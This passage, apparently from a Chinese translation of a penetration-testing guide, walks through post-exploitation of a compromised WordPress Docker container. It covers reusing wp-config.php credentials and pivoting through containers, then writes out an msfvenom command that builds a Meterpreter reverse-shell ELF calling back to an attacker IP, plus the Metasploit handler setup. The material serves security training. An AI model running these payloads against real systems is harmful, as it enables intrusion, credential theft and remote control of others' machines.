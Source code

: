 `172.18.0.1` IP 看起来是 Docker 主机，并且 SSH 服务已被保护。位于 `172.18.0.3` 的 MySQL 服务也很有趣，但可能不容易被利用。它很可能是 WordPress 应用程序使用的数据库。

我们可以返回去抓取 `wp-config.php` 中的凭证并尝试导出数据，但仅凭 SQL 访问可能限制了我们在系统上能做的操作。如果我们的目标是突破容器并获得对主机的访问权限，我们可能需要尝试不同的攻击路径。在测试结束前保存这些凭证也无妨。我们可能需要暴力破解另一组凭证，密码重用是常见的现象。

`content_ssh_1` 容器也很引人注目，但在做其他事情之前，让我们将 Weevely shell 升级为更强大的 Meterpreter 会话。Meterpreter 还模仿了许多可能不存在的 Linux 二进制文件的功能，使我们的工作变得更容易。Meterpreter 更像是一种恶意软件，允许我们轻松地在 Docker 主机及其容器之间进行转移。

Pivoting（转移攻击）是一种通过已经被攻陷的主机隧道化流量，以到达其他无法直接访问的目标的技术。由于我们已经攻破了托管博客平台的容器，我们可以将其作为转移点，攻击其他相邻的容器，甚至是主机本身。

在攻击者机器的 Linux 终端中，我们可以使用 **MSFvenom** 生成一个简单的反向有效负载，它将通过端口 `443` 连接回我们的攻击机 `192.168.1.193`。MSFvenom 是 Metasploit 提供的一个应用程序，用于使用任何可用的有效负载生成便携式恶意软件。通常，在使用 Metasploit 模块成功利用系统后，第一阶段会在目标系统上执行。由于我们没有使用 Metasploit 来获得初始 shell 访问，并且希望生成一个 Meterpreter 会话，我们可以生成一个独立的 Meterpreter 反向 TCP 有效负载以便手动执行。

`msfvenom` 命令允许我们指定所需的有效负载（`-p`），在本例中为 `linux/x64/meterpreter/reverse_tcp`；攻击者机器的 IP 地址 `192.168.1.193`；恶意软件将连接回我们的端口 `443`；以及保存结果可执行文件的格式（`-f`）。在本例中，我们将使用 ELF 二进制格式：

```
**root@kali:~# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=**
**192.168.1.193 LPORT=443 -f elf > /root/tools/nix64_rev443**
**No platform was selected, choosing Msf::Module::Platform::Linux from the payload**
**No Arch selected, selecting Arch: x64 from the payload**
**No encoder or badchars specified, outputting raw payload**
**Payload size: 96 bytes**
**Final size of elf file: 216 bytes**

```

该恶意软件将是一个 64 位 Linux Meterpreter `reverse_tcp` 有效负载，它将连接回我们的外部 IP。如果 Docker 主机位于一个较为严格的防火墙后，使用端口 `443` 会增加成功的可能性。

在执行新生成的独立 `malware /root/tools/nix64_rev443` 之前，我们必须在 Metasploit 中设置一个处理程序来处理来自被攻陷主机的传入连接。

在 Metasploit 控制台中，我们需要加载 `exploit/multi/handler` 模块，并使用与 `msfvenom` 中相同的值进行配置：

```
**msf > use exploit/multi/handler**

```

我们必须将 `PAYLOAD` 变量设置为与我们的恶意软件匹配的值：

```
**msf exploit(handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp**
**PAYLOAD => linux/x64/meterpreter/reverse_tcp**

```

`LHOST` 和 `LPORT` 也应该与恶意软件的配置一致，以确保它在正确的 IP 地址和端口上监听：

```
**msf exploit(handler) > set LHOST 192.168.1.193**
**LHOST => 192.168.1.193**
**msf exploit(handler) > set LPORT 443**
**LPORT => 443**

```
